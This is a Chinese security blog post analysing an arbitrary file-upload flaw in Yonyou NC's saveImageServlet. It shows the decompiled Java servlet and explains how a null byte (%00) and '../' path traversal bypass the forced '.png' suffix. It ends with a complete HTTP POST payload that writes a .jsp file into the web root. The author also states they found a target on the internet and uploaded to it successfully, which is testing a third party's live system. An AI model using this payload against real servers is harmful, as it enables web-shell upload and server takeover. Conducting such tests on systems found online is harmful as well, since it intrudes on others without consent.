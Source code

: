 #  用友NC saveImageServlet 文件上传漏洞分析   
原创 莫大130  安全逐梦人   2024-04-11 20:41  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrcSicO9uTsRXLaibQjycXGfdwZJmmaSerFwwfbRA70TccJA6R37JJq3qA/640?wx_fmt=png&from=appmsg "")  
  
官方更新了一个漏洞，  
NC系统的saveImageServlet接口中的filename参数缺乏校验导致任意文件上传，分析一下  
  
在idea 搜索 saveImageServlet 接口位置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrvxsVrFBqXCOfsd9AM7W4ia5MyvYFUNXM7bhd8AfXQFxJhibPn12nQ90g/640?wx_fmt=png&from=appmsg "")  
```
package nc.uap.wfm.action;


@Servlet(path="/servlet/saveImageServlet")
public class SaveImageServlet
extends WfBaseServlet {
    private static final long serialVersionUID = -5603687395645617927L;

    @Action(method="POST")
    public void doPost() throws ServletException, IOException {
        this.response.setContentType("application/octet-stream");
        String filename = this.request.getParameter("filename");
        if (filename == null || "".equals(filename)) {
            filename = UUID.randomUUID().toString();
        }
        filename = filename + ".png";
        String savePath = this.request.getRealPath("") + "/processxml/images/" + filename;
        ServletInputStream is = this.request.getInputStream();
        FilterOutputStream dos = null;
        try {
            int size = 0;
            byte[] tmp = new byte[10240];
            File f = new File(savePath);
            dos = new DataOutputStream(new FileOutputStream(f));
            int len = -1;
            while ((len = is.read(tmp)) != -1) {
                ((DataOutputStream)dos).write(tmp, 0, len);
                size += len;
            }
            ((DataOutputStream)dos).flush();
            dos.close();
        }
        catch (IOException e) {
            WfmLogger.error((String)e.getMessage(), (Throwable)e);
            throw new LfwRuntimeException(e.getMessage());
        }
        finally {
            try {
                if (is != null) {
                    is.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
            try {
                if (dos != null) {
                    dos.close();
                }
            }
            catch (Exception e) {
                WfmLogger.error((Throwable)e);
            }
        }
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrDmm2bpIibhuXhvltQsQltK7ib4XXWntpqCzDHARMMQAwoL9ClHWjiaTbA/640?wx_fmt=png&from=appmsg "")  
  
从代码上看，上传文件名进行了处理，  
filename = filename + ".png";  
   将后缀拼接上了.png格式然后将文件上传，因为强制加上了.png，按道理来说是不存在漏洞的  
  
  
本地我也进行测试了，基本上不可以，上传的文件都被强制加上了png  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrfwWiaQ7RtrSYLdl4vFUkHogMLQoiakqER904MiaJOYYaf3p45f4geny9A/640?wx_fmt=png&from=appmsg "")  
  
  
  
想起来之前网上放出poc中利用Windows特性， 加上   
%00  
 就成功上传了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHruxlyewyV0mO6ZPSZBXaoUCoe72YbpGH6ricQMoegUibBC3N6LCHIcNkA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrawt3KyiaDMSmlSX7CHJnnlK7lgIgk2NPHQmHqQsoyqEFgud63UgXCnA/640?wx_fmt=png&from=appmsg "")  
  
  
但是我本地搭建的环境也没成功, Windows2016 可能版本太高了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrObZu6GKyNibbKicQb1ibSSN9Pmf9WaORvAfoUWkjr4Ih7Fb8kLDf5BNGw/640?wx_fmt=png&from=appmsg "")  
  
返回500  没有上传成功  
  
正常上传jsp文件试试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrmPj1nVqNLRcjtNBzeicnFjGeRQg3XF7Iarvcxsoht2XOibtA2fZTQUXA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHromQOleia1eEriauoic6XVefPlEcvk8QTPUmOUbBVeT0MjwVVicGic38HCSg/640?wx_fmt=png&from=appmsg "")  
  
都加上了.png后缀  
  
  
从网上找了目标测试 成功上传  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrnylicgGzG43bxpbcX1BVlleO5FDAyMpe3K3piaH6Nha6AVWE7JzcFNWQ/640?wx_fmt=png&from=appmsg "")  
  
说明了这个漏洞  
要是  
目标的  
Windows版本太高了，就不能利用成功的，起码我的环境  
Windows2016 是没有成功。  
  
  
附上数据包  
```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp%00 HTTP/1.1
Host: 5
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```  
  
  
文件上传路径http://ip:port/portal/processxml/1.jsp  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/vOGOib9z4Wz6kAqAmLYKy8uZia1RtckEHrS3uPUrjhTPy7jILzSdRv98TvvCQpQJyPXKkY3PjpMfEZVCtL8UH8yA/640?wx_fmt=jpeg&from=appmsg "")  
  
